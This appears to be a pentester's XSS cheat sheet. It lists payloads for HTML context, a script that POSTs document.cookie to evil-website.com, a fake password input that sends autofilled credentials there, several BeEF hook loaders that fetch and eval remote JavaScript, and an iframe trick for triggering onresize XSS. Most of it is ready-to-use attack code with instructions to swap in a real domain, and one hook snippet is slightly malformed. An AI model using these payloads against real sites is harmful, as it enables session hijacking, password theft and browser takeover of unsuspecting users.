# XSS (Cross-Site Scripting)

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

## HTML Context

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## XSS Exploit

### Steal Cookie

Replace `evil-website.com` in the code with the actual domain

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

### Steal Password

* Only for users who have enabled autofill passwords
* Replace `evil-website.com` in the code with the actual domain

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

### Hook Browser (beef)

```
<script src="47.106.10.108"></script>
```

```html
<body
    onload="fetch('http://evil-website.com:3000/hook.js')
        .then(response => response.text())
        .then(script => eval(script))"
        .catch(error => console.error('Error:', error));
>

<body
    onload="
        fetch('http://evilwebsite:3000/hook.js')
            .then(function(response) {
                return response.text();
            })
            .then(function(script) {
                eval(script);
            })
    "
>
```

```
<body
    onload="
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://evil-website.com:3000/hook.js', true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState == 4 && xhr.status == 200)
            eval(xhr.responseText);
    };
    xhr.send();
"
>
```

## Experiment

### `onresize` event (GET)

* You need to start an HTTP service for the victim to access
* Replace `vulnerable-website.com` in the code with the actual domain
* Replace `<xss-parameter>` in the code with the actual parameter.
* Replace `<%3Cbody%20onresize=%22print()%22%3E>` in the code with the actual payload.
  * The decoded value is x `<body onresize="print()">`

```
<br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />

<iframe
    src="https://vulnerable-website.com/?<xss-parameter>=<%3Cbody%20onresize=%22print()%22%3E>"
    onload="this.style.width='0'; this.style.height='0'"
></iframe>
```
